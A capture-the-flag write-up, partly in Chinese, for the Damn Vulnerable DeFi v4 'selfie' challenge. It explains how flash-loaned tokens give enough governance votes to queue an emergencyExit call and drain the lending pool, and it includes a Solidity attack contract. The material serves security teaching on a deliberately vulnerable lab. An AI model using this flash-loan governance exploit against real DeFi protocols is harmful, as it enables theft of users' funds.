 # Damn Vulnerable DeFi v4 - selfie

- https://www.damnvulnerabledefi.xyz/challenges/selfie/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## check condition

抽光 pool 所有資金並轉移至 recovery:

```solidity
assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");
assertEq(
    token.balanceOf(recovery),
    TOKENS_IN_POOL,
    "Not enough tokens in recovery account"
);
```

## break

主因源於可以透過 flashloan 增加自己的投票權。在 Goverance 合約設計上，通常會以持有代幣數量作為票數或是投票權利，提案有一定同意票數才可以執行。

本例中，Goverance 提案需要一半 total supply 以上的同意，才可以提案，可以以 flashloan 借出來繞過檢查：

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

## solution

```solidity
contract Trigger is IERC3156FlashBorrower {
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        // delegate vote
        DamnValuableVotes(token).delegate(address(this));

        // propose an action
        action_id = governance.queueAction(
            address(pool),
            0,
            abi.encodeCall(SelfiePool.emergencyExit, (recovery))
        );

        // repay flashloan
        DamnValuableVotes(token).approve(address(pool), type(uint256).max);
        return CALLBACK_SUCCESS;
    }

    function exec() external {
        governance.executeAction(action_id);
    }
}
```
